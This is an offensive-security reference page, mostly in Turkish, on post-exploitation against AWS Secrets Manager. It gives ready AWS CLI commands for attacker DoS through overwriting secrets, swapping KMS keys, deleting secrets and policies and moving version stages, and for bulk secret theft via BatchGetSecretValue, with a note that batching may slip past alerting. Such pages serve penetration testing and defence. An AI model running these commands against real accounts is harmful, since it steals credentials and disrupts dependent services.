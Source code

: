 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets** hassas bilgilerdir; bunları nasıl okuyacağınızı öğrenmek için [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md).

### DoS Change Secret Value

Secret'in değerini değiştirerek **o değere bağımlı tüm sistemlere DoS uygulayabilirsiniz.**

> [!WARNING]
> Önceki değerlerin de saklandığını unutmayın, bu yüzden önceki değere geri dönmek kolaydır.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Eğer saldırganın secretsmanager:UpdateSecret izni varsa, secret'ı saldırganın sahip olduğu bir KMS key'i kullanacak şekilde yapılandırabilir. Bu KMS key başlangıçta herkesin erişip kullanabileceği şekilde ayarlanmıştır; bu yüzden secret'ı yeni key ile güncellemek mümkündür. Eğer key erişilebilir olmasaydı, secret güncellenemezdi.

Secret için key'i değiştirdikten sonra saldırgan kendi KMS key'inin yapılandırmasını sadece kendisinin erişebileceği şekilde değiştirir. Böylece secret'ın sonraki versiyonları yeni key ile şifrelenir ve bu key'e erişim olmadığı için secret'ı elde etme yeteneği kaybolur.

Önemli olarak, bu erişilemezlik yalnızca secret'ın içeriği değiştikten sonra, yani sonraki versiyonlarda meydana gelecektir; çünkü mevcut versiyon hâlâ orijinal KMS key ile şifrelenmiştir.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret Silme

Bir secret'i silmek için gereken minimum gün sayısı 7'dir.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Bir secret'ı geri yüklemek mümkündür; bu, silinmek üzere planlanmış secret'ların geri getirilmesine olanak tanır, çünkü secret'lar için minimum silme süresi 7 gün ve maksimum 30 gündür. secretsmanager:GetSecretValue izni ile birlikte, bunların içeriklerini almak mümkün olur.

Silinme sürecinde olan bir secret'ı kurtarmak için aşağıdaki komutu kullanabilirsiniz:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Bu eylem, bir secret'e kimlerin erişebileceğini kontrol eden resource policy'yi silmeye izin verir. Eğer resource policy belirli bir kullanıcı kümesine erişim izni verecek şekilde yapılandırıldıysa, bu bir DoS'a yol açabilir.

Resource policy'yi silmek için:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Bir secret'in durumları, secret'in sürümlerini yönetmek için kullanılır. AWSCURRENT, uygulamaların kullandığı aktif sürümü işaret eder; AWSPREVIOUS gerektiğinde geri alabilmeniz için önceki sürümü saklar; AWSPENDING ise rotation sürecinde yeni bir sürümü mevcut yapmadan önce hazırlamak ve doğrulamak için kullanılır.

Uygulamalar her zaman AWSCURRENT etiketli sürümü okur. Birisi bu etiketi yanlış sürüme taşırsa, uygulamalar geçersiz kimlik bilgilerini kullanır ve başarısız olabilir.

AWSPREVIOUS otomatik olarak kullanılmaz. Ancak, AWSCURRENT kaldırılır veya yanlış şekilde yeniden atanırsa, her şeyin hâlâ önceki sürümle çalışıyormuş gibi görünebilir.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (çağrı başına en fazla 20)

Secrets Manager BatchGetSecretValue API'sini kullanarak tek bir istekte en fazla 20 secret alabilirsiniz. Bu, her secret için GetSecretValue çağırmak yerine API çağrı hacmini önemli ölçüde azaltabilir. If filters are used (tags/name), ListSecrets izni de gereklidir. CloudTrail yine de batch ile alınan her secret için bir GetSecretValue olayı kaydeder.

Gerekli izinler
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue (her hedef secret için)
- secretsmanager:ListSecrets (--filters kullanılıyorsa)
- kms:Decrypt (secret'lerde kullanılan CMK'ler üzerinde, aws/secretsmanager kullanılmıyorsa)

> [!WARNING]
> `secretsmanager:BatchGetSecretValue` izni tek başına secret'leri almaya yeterli olmadığını unutmayın; almak istediğiniz her secret için ayrıca `secretsmanager:GetSecretValue` gerekir.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate filtrelere göre (tag key/value veya name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kısmi başarısızlıkların ele alınması
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Etkileri
- Daha az API çağrısıyla birçok secret'in hızlı “smash-and-grab” şeklinde ele geçirilmesi, GetSecretValue'deki ani artışlara göre ayarlanmış uyarıları atlatabilir.
- CloudTrail kayıtları hâlâ batch ile alınan her secret için bir GetSecretValue olayı içerir.
{{#include ../../../../banners/hacktricks-training.md}}
